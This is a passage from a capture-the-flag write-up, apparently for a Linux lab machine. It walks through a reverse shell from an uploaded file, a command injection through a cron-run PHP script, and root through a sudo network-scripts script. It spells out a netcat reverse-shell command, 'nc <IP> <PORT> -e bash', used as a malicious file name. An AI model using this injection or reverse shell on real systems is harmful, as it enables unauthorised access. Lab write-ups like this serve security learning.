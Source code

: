 <img width="1495" height="535" alt="06 - upload" src="https://github.com/user-attachments/assets/739ed96d-1755-416d-9022-fc899f9665ce" />

Then visiting the page got me a reverse shell as apache.

<img width="1168" height="222" alt="07 - shell" src="https://github.com/user-attachments/assets/122cf2ac-4dce-47c0-b2fc-28d7cfb197bc" />

## Lateral Movement
I could not read user flag. But on the user's home page there was cron file which run a php file every 3 minutes.

<img width="607" height="645" alt="08 - php files" src="https://github.com/user-attachments/assets/51371710-ebe8-40f2-a829-214281322314" />

As seen above, the php file checks uploads folder then directly concats the file name inside it to a bash command. So we can manipulate $value and inject a command. So I created a file named 'nc <IP> <PORT> -e bash' but it did not work. Later I tried base64 encoding and then decoding the command. 

<img width="999" height="195" alt="09 - created a file" src="https://github.com/user-attachments/assets/cc580506-4250-4d8c-9f2e-5717046716ac" />

Then started a netcat listener and got a user shell.

<img width="575" height="224" alt="10 - user" src="https://github.com/user-attachments/assets/4caa1f15-e2cb-4c59-975b-f88e6f28cd7f" />

## Privilege Escalation
The user can run a script as sudo without password. And this script manipulates a network-script file. 

<img width="744" height="584" alt="11 - sudo l" src="https://github.com/user-attachments/assets/fd746e58-029d-41f8-9cf5-6758b6972b61" />

So I searched "/etc/sysconfig/network-scripts/ifcfg privesc" and found a post named [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24).

Applying the technique in this post got me the root shell.

<img width="578" height="307" alt="12 - root" src="https://github.com/user-attachments/assets/c19ecd6e-1cf5-4380-8533-c2faab2a4306" />

## Pwned
The machine was fully compromised.

<img width="740" height="693" alt="pwned" src="https://github.com/user-attachments/assets/e65e86b9-ac01-49ac-bca2-c00e2f012613" />
